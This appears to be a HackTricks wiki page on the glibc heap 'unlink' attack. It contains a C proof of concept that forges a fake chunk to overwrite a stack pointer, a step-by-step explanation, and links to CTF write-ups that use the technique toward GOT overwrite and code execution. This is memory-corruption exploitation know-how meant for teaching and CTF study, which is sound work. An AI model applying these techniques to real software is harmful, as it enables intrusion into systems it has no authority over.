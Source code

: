 # Unlink Attack

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Basic Information

When this attack was discovered it mostly allowed a WWW (Write What Where), however, some **checks were added** making the new version of the attack more interesting more more complex and **useless**.

### Code Example:

<details>

<summary>Code</summary>

```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Altered from https://github.com/DhavalKapil/heap-exploitation/tree/d778318b6a14edad18b20421f5a06fa1a6e6920e/assets/files/unlink_exploit.c to make it work

struct chunk_structure {
  size_t prev_size;
  size_t size;
  struct chunk_structure *fd;
  struct chunk_structure *bk;
  char buf[10];               // padding
};

int main() {
  unsigned long long *chunk1, *chunk2;
  struct chunk_structure *fake_chunk, *chunk2_hdr;
  char data[20];

  // First grab two chunks (non fast)
  chunk1 = malloc(0x8000);
  chunk2 = malloc(0x8000);
  printf("Stack pointer to chunk1: %p\n", &chunk1);
  printf("Chunk1: %p\n", chunk1);
  printf("Chunk2: %p\n", chunk2);

  // Assuming attacker has control over chunk1's contents
  // Overflow the heap, override chunk2's header

  // First forge a fake chunk starting at chunk1
  // Need to setup fd and bk pointers to pass the unlink security check
  fake_chunk = (struct chunk_structure *)chunk1;
  fake_chunk->size = 0x8000;
  fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); // Ensures P->fd->bk == P
  fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2); // Ensures P->bk->fd == P

  // Next modify the header of chunk2 to pass all security checks
  chunk2_hdr = (struct chunk_structure *)(chunk2 - 2);
  chunk2_hdr->prev_size = 0x8000;  // chunk1's data region size
  chunk2_hdr->size &= ~1;        // Unsetting prev_in_use bit

  // Now, when chunk2 is freed, attacker's fake chunk is 'unlinked'
  // This results in chunk1 pointer pointing to chunk1 - 3
  // i.e. chunk1[3] now contains chunk1 itself.
  // We then make chunk1 point to some victim's data
  free(chunk2);
  printf("Chunk1: %p\n", chunk1);
  printf("Chunk1[3]: %x\n", chunk1[3]);

  chunk1[3] = (unsigned long long)data;

  strcpy(data, "Victim's data");

  // Overwrite victim's data using chunk1
  chunk1[0] = 0x002164656b636168LL;

  printf("%s\n", data);

  return 0;
}

```

</details>

* Attack doesn't work if tcaches are used (after 2.26)

### Goal

* Modify a pointer to a chunk in the stack so it points to the stack so it's possible to alter the contents of the stack by writing in the chunk

### Requirements

* Some control in a memory (e.g. stack) to create a couple of chunks giving values to some of the attributes.
* Stack leak in order to set the pointers of the fake chunk.

### Attack

* There are a couple of chunks (chunk1 and chunk2)
* The attacker controls the content of chunk1 and the headers of chunk2.
* In chunk1 the attacker creates the structure of a fake chunk:
  * To bypass protections he makes sure that the field `size` is correct to avoid the error: `corrupted size vs. prev_size while consolidating`
  * and fields `fd` and `bk` of the fake chunk are pointing to where chunk1 pointer is stored in the with offsets of -3 and -2 respectively so `fake_chunk->fd->bk` and `fake_chunk->bk->fd` points to position in memory (stack) where the real chunk1 address is located:

<figure><img src="../../.gitbook/assets/image (1245).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

* The headers of the chunk2 are modified to indicate that the previous chunk is not used and that the size is the size of the fake chunk contained.
* When the second chunk is freed then this fake chunk is unlinked happening:
  * `fake_chunk->fd->bk` = `fake_chunk->bk`
  * `fake_chunk->bk->fd` = `fake_chunk->fd`
* Previously it was made that `fake_chunk->fd->bk` and `fake_chunk->fd->bk` point to the same place (the location in the stack where `chunk1` was stored, so it was a valid linked list). As **both are pointing to the same location** only the last one (`fake_chunk->bk->fd = fake_chunk->fd`) will take **effect**.
* This will **overwrite the pointer to chunk1 in the stack to the address (or bytes) stored 3 addresses before in the stack**.
  * Therefore, if an attacker could control the content of the chunk1 again, he will be able to **write inside the stack** being able to potentially overwrite the return address skipping the canary and modify the values and points of local variables. Even modifying again the address of chunk1 stored in the stack to a different location where if the attacker could control again the content of chunk1 he will be able to write anywhere.
  * Note that this was possible because the **addresses are stored in the stack**. The risk and exploitation might depend on **where are the addresses to the fake chunk being stored**.

<figure><img src="../../.gitbook/assets/image (1246).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

## References

* [https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit](https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit)
* Although it would be weird to find an unlink attack even in a CTF here you have some writeups where this attack was used:
  * CTF example: [https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html](https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html)
    * In this example, instead of the stack there is an array of malloc'ed addresses. The unlink attack is performed to be able to allocate a chunk here, therefore being able to control the pointers of the array of malloc'ed addresses. Then, there is another functionality that allows to modify the content of chunks in these addresses, which allows to point addresses to the GOT, modify function addresses to egt leaks and RCE.
    *

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
